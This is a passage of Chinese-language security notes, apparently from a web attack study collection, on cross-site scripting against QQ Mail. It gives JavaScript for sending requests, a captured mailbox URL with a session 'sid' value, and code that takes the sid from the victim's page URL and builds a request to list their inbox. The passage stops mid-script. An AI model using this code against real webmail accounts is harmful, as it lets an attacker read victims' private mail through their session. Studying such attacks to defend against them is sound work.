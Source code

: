                             var ajax = null;
                            if(window.XMLHttpRequest){
                              ajax = new XMLHttpRequest();
                            }
                            else if(window.ActiveXObject){
                              ajax = new ActiveXObject("Microsoft.XMLHTTP");
                            }
                            else{
                              return;
                            }

                            ajax.open("POST", url, true);
                            ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
                            ajax.send(postStr);
                            ajax.onreadystatechange = function(){
                              if (ajax.readyState == 4 && ajax.status == 200){
                                alert("Done!");
                              }
                            }
                            ```
                * 读取QMail用户的邮件文件夹
                    - 抓包
                        ```
                        http://m57.mail.qq.com/cgi-bin/mail_list?sid=6alhx3p5yzh9a2om7U51dDyz&folderid=1&page=0&s=inbox&loc=folderlist,,,1
                        ```
                    - 真正能访问到邮件列表的链接
                        ```
                        http://m57.mail.qq.com/cgi-bin/mail_list?folderid=1&page=0&s=inbox&sid=6alhx3p5yzh9a2om7U51dDyz
                        ```
                    - `sid` 字面推测是用户ID加密后的值
                    - 思路
                        + 先获取到sid的值，然后构造完整的URL，并使用XMLHttpRequest请求此URL，应该就能得到邮件列表了
                            ```
                            if (top.window.location.href.indexOf("sid=")>0){      
                                  var sid = top.window.location.href.substr(top.window.location.href.indexOf("sid=") +4,24);
                                }


                                var folder_url = "http://"+top.window.location.host+"/cgi-bin/mail_list?folderid= 1&page=0&s=inbox&sid="+sid;  

                                var ajax = null;
                                if(window.XMLHttpRequest){
                                  ajax = new XMLHttpRequest();
                                }
                                else if(window.ActiveXObject){
                                  ajax = new ActiveXObject("Microsoft.XMLHTTP");
                                }
                                else{
                                  return;
                                }
